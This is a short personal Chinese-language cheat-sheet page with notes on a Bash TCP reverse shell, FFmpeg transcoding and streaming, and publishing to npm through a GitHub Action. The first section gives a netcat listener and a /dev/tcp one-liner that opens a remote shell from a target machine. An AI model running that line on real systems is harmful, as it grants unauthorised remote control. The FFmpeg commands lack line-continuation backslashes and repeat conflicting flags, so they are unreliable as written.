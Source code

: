 ```yaml
---
title: 备忘录
description: 我什么都记不住
---
```


# 备忘录

## Reverse Shell (Bash TCP) mark

```bash
# 本地开一个 5555 端口监听（extra/gnu-netcat）
nc -lvnp 5555

# 想办法在对面设备上面执行
bash -i >& /dev/tcp/192.168.24.1/5555 0>&1
```

[其他手段](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#reverse-shell)

## FFmpeg

转码

```sh
ffmpeg \
# 输入视频
-i input-1.mp4
# 设置起始时间
-ss 00:01:00
# 设置结束时间
-to 00:02:00
# 设置视频编码格式
-c:v hevc
-c:v copy
# 设置视频码率
-b:v 8M
# 设置音频编码格式
-c:a aac
-c:a copy
# 设置音频码率
-b:a 340k
# 设置输出格式（一般可以自动推断）
-f mp4
# 设置输出文件
output.mp4
```

推流

```sh
ffmpeg \
# 设置推流速度为播放速度
-re
# 输入
-i input-1.mp4
# 设置编码格式
-c copy
# 设置容器格式
-f flv
# 推流地址
rtmp://xxx/xxx
```

### 硬件编解码（需要 cuda）

```sh
ffmpeg \
-hwaccel cuda
-c:v h264_nvenc
-c:v hevc_nvenc
-c:v av1_nvenc
```

## GitHub Action

### 发布 npm publish

1. 首先打开 npmjs.org，申请一个 access token
2. 在 GitHub 上点仓库设置，选择 Environments，创建一个新的 NPM_TOKEN，在里面添加新的 Secret，名称为 NPM_TOKEN，值为上面获取的 access token
3. 复制粘贴这份 [YAML](https://github.com/biliblitz/blitz/blob/master/.github/workflows/build.yml)


